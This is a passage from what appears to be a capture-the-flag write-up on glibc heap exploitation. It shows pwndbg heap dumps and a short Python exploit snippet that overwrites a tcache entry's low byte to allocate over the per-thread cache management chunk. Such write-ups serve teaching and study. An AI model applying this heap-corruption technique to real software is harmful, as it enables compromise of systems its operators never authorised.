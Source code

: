 ```
0x56542aec6250	0x0000000000000000	0x0000000000000000	................
0x56542aec6260	0x0000000000000000	0x0000000000000000	................
0x56542aec6270	0x000056542aec7280	0x000056542aec7660	.r.*TV..`v.*TV..
0x56542aec6280	0x0000000000000000	0x0000000000000000	................
0x56542aec6290	0x0000000000000000

```

From here, we can simply make a new allocation which will be taken from the faked `0x10000` `unsorted bin` to overwrite the `LSB` of our `0x3d8` t-cache chunk. Doing so we can make it point to the top of the `per-thread cache`, and then make an allocation on top of the `per-thread cache`, wiping the `t-cache`:
```python
#########################################################################################
# Alloc in to mgmt chunk to overwrite LSB of 0x3d8 t-cache entry to control mgmt fully! #
#########################################################################################

# Overwrite LSB of 0x3d8
malloc(0x248, p16(0x6010), 0x1e0)

# Allocate at the management chunk!
mgmt = malloc(0x3d8, p8(0)*0x288)

```

Here, `mgmt` is the chunk, which is on top of the `per-thread cache`.

This will make the `heap` look like the following after the "cleaning":
```
pwndbg> vis 0

0x55ea57266000	0x0000000000000000	0x0000000000000291	................
0x55ea57266010	0x0000000000000000	0x0000000000000000	................
0x55ea57266020	0x0000000000000000	0x0000000000000000	................
0x55ea57266030	0x0000000000000000	0x0000000000000000	................
0x55ea57266040	0x0000000000000000	0x0000000000000000	................
0x55ea57266050	0x0000000000000000	0x0000000000000000	................
0x55ea57266060	0x0000000000000000	0x0000000000000000	................
0x55ea57266070	0x0000000000000000	0x0000000000000000	................
0x55ea57266080	0x0000000000000000	0x0000000000000000	................
0x55ea57266090	0x0000000000000000	0x0000000000000000	................
0x55ea572660a0	0x0000000000000000	0x0000000000000000	................
0x55ea572660b0	0x0000000000000000	0x0000000000000000	................
0x55ea572660c0	0x0000000000000000	0x0000000000000000	................
0x55ea572660d0	0x0000000000000000	0x0000000000000000	................
0x55ea572660e0	0x0000000000000000	0x0000000000000000	................
0x55ea572660f0	0x0000000000000000	0x0000000000000000	................
0x55ea57266100	0x0000000000000000	0x0000000000000000	................
0x55ea57266110	0x0000000000000000	0x0000000000000000	................
0x55ea57266120	0x0000000000000000	0x0000000000000000	................
0x55ea57266130	0x0000000000000000	0x0000000000000000	................
0x55ea57266140	0x0000000000000000	0x0000000000000000	................
0x55ea57266150	0x0000000000000000	0x0000000000000000	................
0x55ea57266160	0x0000000000000000	0x0000000000000000	................
0x55ea57266170	0x0000000000000000	0x0000000000000000	................
0x55ea57266180	0x0000000000000000	0x0000000000000000	................
0x55ea57266190	0x0000000000000000	0x0000000000000000	................
0x55ea572661a0	0x0000000000000000	0x0000000000000000	................
0x55ea572661b0	0x0000000000000000	0x0000000000000000	................
0x55ea572661c0	0x0000000000000000	0x0000000000000000	................
0x55ea572661d0	0x0000000000000000	0x0000000000000000	................
0x55ea572661e0	0x0000000000000000	0x0000000000000000	................
0x55ea572661f0	0x0000000000000000	0x0000000000000000	................
0x55ea57266200	0x0000000000000000	0x0000000000000000	................
0x55ea57266210	0x0000000000000000	0x0000000000000000	................
```